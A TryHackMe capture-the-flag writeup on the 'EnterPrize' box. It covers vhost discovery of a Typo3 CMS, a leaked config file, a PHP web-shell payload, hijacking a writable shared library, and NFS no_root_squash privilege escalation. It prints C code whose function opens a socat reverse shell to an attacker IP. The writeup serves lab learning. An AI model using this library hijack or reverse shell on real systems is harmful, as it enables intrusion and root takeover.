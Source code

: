 ```yaml
---
title: EnterPrize TryHackMe Writeup
tags: [writeup,norootsquash,tryhackme,typo3,linux,libcustom.so]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/1.jpeg)

## Scanning
We launch **nmap** to all ports, with script and software version.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/2.png)

## Enumeration
We access the web resource, but there is nothing.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/3.png)

We launch the **nikto** tool and find the file *"composer.json"*, these files usually reveal interesting information.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/4.png)

#### Contents of the file "composer.json"

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/5.png)

It seems that there are leftover files from **CMS Typo3**, I check several paths but I can't find anything.... But maybe it is in another *subdomain* by virtual hosting (vhost).

We launch the **wfuzz** tool in vhost mode:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/6.png)

We add the subdomain to our */etc/hosts file*, access the new site and find the **Typo3 CMS** that we listed information in the previous file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/7.png)

For this CMS I used the **[Typo3Scan](https://github.com/whoot/Typo3Scan)** tool to find vulnerabilities in this cms.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/8.png)

List the control panel:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/9.png)

We enter credentials by guessing, it seems to work, but the site has gone into maintenance mode and we no longer have access to the panel.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/10.png)

We launch **dirsearch**, list several interesting files and folders.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/11.png)

Access the *"/typo3conf"* directory and list the *"LocalConfiguration.old"* file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/13.png)

#### Part of the content of the "LocalConfiguration.old" file

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/14.png)

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/15.png)

## Exploitation


We list the sections of the site, we find a form from which we could carry out the exploitation.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/17.png)

We follow the instructions in the article and create a payload to generate the file *"m3.php"* and execute commands through it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/18.png)

#### Sending malicious request:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/19.png)

#### Proof of concept

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/20.png)

#### Reverse shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/21.png)

We make an enumeration in the only user that has home, we find some files and a binary that seems interesting.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/26.png)


We check the libraries, we see that it calls *"libcustom.so"*, we see that we also have write permissions, so it would make a lot of sense to replace the file with another illegitimate one.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/27.png)

#### Contents of file libcustom.c

```C
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void do_ping(){
    system("/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.6.62.222:5555", NULL, NULL);
}
```

We see that the configuration file has a symbolic link to a *"test.conf"* file in the folder, this file is not found but we can write it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/29.png)

We run the **pspy64** tool and we see that every few minutes it executes the binary and with it our reverse shell.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/28.png)

We wait a few minutes, get shell as the user *"john"* and read the user flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/30.png)

## Privilege Escalation
In the previous enumeration, we saw that there is an nfs working internally, but we did not have access with the user *"www-data"*. 
In the evidence we see that it is vulnerable to **"no_root_squash"**, this vulnerability would allow us to be able to run a shared binary on our machine and get the same privileges of its SUID.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/23.png)

Hacemos port forwarding con **chisel** al servicio **NFS**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/31.png)

We authenticate as root, create a malicious binary, compile and give it permissions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/34.png)

Run the binary from the victim's nfs directory and you will become root.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/35.png)




